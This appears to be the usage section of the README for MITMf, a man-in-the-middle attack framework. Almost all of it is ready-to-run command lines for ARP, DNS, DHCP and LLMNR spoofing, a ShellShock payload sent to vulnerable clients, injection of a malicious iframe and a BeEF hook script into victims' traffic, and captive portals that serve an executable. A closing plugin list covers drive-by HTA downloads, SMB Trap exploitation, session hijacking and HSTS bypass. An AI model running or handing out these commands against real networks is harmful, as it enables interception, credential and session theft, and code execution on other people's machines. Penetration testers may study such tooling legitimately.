 ```python mitmf.py -i enp3s0```

```python mitmf.py -i enp3s0 --spoof --dns --arp --target 192.168.1.0/24 --gateway 192.168.1.1```

Enable LLMNR/NBTNS/MDNS spoofing:

```python mitmf.py -i enp3s0 --responder --wredir --nbtns```

Enable DHCP spoofing (the ip pool and subnet are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dhcp```

Same as above with a ShellShock payload that will be executed if any client is vulnerable:

```python mitmf.py -i enp3s0 --spoof --dhcp --shellshock 'echo 0wn3d'```

Inject an HTML IFrame using the **Inject** plugin:

```python mitmf.py -i enp3s0 --inject --html-url http://some-evil-website.com```

Inject a JS script:

```python mitmf.py -i enp3s0 --inject --js-url http://beef:3000/hook.js```

Start a captive portal that redirects everything to http://SERVER/PATH:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portalurl http://SERVER/PATH```

Start captive portal at http://your-ip/portal.html using default page /portal.html (thx responder) and /CaptiveClient.exe (not included) from the config/captive folder:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive```

Same as above but with hostname captive.portal instead of IP (requires captive.portal to resolve to your IP, e.g. via DNS spoof):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --use-dns```

Serve a captive portal with an additional SimpleHTTPServer instance serving the LOCALDIR at http://IP:8080 (change port in mitmf.config):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portaldir LOCALDIR```

Same as above but with hostname:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --portaldir LOCALDIR --use-dns```

And much much more! 

Of course you can mix and match almost any plugin together (e.g. ARP spoof + inject + Responder etc..)

For a complete list of available options, just run ```python mitmf.py --help```

# Currently available plugins

- **HTA Drive-By**     : Injects a fake update notification and prompts clients to download an HTA application
- **SMBTrap**          : Exploits the 'SMB Trap' vulnerability on connected clients
- **ScreenShotter**    : Uses HTML5 Canvas to render an accurate screenshot of a clients browser
- **Responder**        : LLMNR, NBT-NS, WPAD and MDNS poisoner
- **SSLstrip+**        : Partially bypass HSTS
- **Spoof**            : Redirect traffic using ARP, ICMP, DHCP or DNS spoofing
- **BeEFAutorun**      : Autoruns BeEF modules based on a client's OS or browser type
- **AppCachePoison**   : Performs HTML5 App-Cache poisoning attacks 
- **Ferret-NG**        : Transparently hijacks client sessions
```